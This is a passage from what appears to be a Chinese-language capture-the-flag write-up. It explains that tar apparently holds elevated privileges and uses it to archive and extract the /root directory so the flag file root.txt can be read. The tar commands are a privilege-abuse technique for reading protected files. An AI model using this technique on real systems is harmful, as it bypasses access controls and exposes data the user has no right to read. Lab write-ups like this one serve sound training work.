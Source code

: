  说白了，就是tar具有特殊高权限，我们使用tar时哪怕没有拥有文件的访问权限也可以正常读取和搜索。  那我们直接用tar把/root目录打包，然后再解压就可以看到flag即root.txt：


```bash
tar -zcvf  root.tar.gz /root
```

![image-20240818190514869](./imgs/image-20240818190514869.png)

然后我们再解压即可读取root.txt：

```bash
tar -zxvf root.tar.gz
```

![image-20240818190523862](./imgs/image-20240818190523862.png)
